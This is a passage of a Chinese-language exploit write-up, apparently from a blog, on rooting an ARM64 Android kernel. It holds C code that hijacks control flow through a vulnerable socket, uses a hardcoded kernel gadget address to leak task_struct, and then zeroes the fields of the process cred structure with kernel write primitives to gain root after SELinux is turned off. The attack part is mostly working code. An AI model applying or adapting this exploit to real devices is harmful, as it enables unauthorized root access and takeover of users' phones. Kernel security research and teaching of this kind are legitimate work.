 关掉 selinux

接着再通过泄露栈的方式得到 thread_info 因为在 kernel 里 stack 和 thread_info 是个联合

```
exp_sock = -1;
	   exp_sock_index = exp_sock_index + 1;
	   exp_sock = search_exploitable_socket(&exp_sock_index, &payload);
	   if(-1 == exp_sock)
	   {
	      printf("[*] can't search exploitable socket.\n");
	      return -1;
	   }

	   /*
	      when PC is hijacked, X1 is 0. so we can leak task_struct pointer in 0x0000000000000018

	      ROM:FFFFFFC0004AA518                 MOV             X2, SP
	      ROM:FFFFFFC0004AA51C                 AND             X2, X2, #0xFFFFFFFFFFFFC000
	      ROM:FFFFFFC0004AA520                 LDR             X2, [X2,#0x10]
	      ROM:FFFFFFC0004AA524                 STR             X2, [X1,#0x18]
	      ROM:FFFFFFC0004AA528                 RET
	   */
	   *(unsigned long *)((char *)payload + 0x290) = 0;
	   *(unsigned long *)((char *)payload + 0x28)  = (unsigned long)payload;
	   *(unsigned long *)((char *)payload)         = (unsigned long)0xFFFFFFC0004AA518;
	   close(exp_sock);

```

经过调试, 这里的 x1 是 0，也就是我们申请的 null 页的地址

此时，我们已经得到了 thread_info 的地址，同时修改了 addr_limit, 那么我们就可以直接来改写 ccred, 赋值给 0 了

[外链图片转存失败, 源站可能有防盗链机制, 建议将图片保存下来直接上传 (img-1kaHVj7o-1644392782071)(exp_7.png)]

```
   */
	   *(unsigned long *)((char *)payload + 0x290) = 0;
	   *(unsigned long *)((char *)payload + 0x28)  = (unsigned long)payload;
	   *(unsigned long *)((char *)payload)         = (unsigned long)0xFFFFFFC0004AA518;
	   close(exp_sock);


	   /*
	      overwrite task_struct->cred to gain root privilege
	   */
	   task = NULL;
	   task = (void *)*(unsigned long *)((char *)user_mm + 0x18);
	   printf("[*] task:%p\n", task); 

	   cred = NULL;
	   kernel_read8((char *)task + 0x398, &cred);
	   printf("[*] cred:%p\n", cred);

	   data4 = 0;
	   kernel_write4((char *)cred +  4,  &data4);
	   kernel_write4((char *)cred +  8,  &data4);
	   kernel_write4((char *)cred + 12,  &data4);
	   kernel_write4((char *)cred + 16,  &data4);
	   kernel_write4((char *)cred + 20,  &data4);
	   kernel_write4((char *)cred + 24,  &data4);
	   kernel_write4((char *)cred + 28,  &data4);
	   kernel_write4((char *)cred + 32,  &data4);


```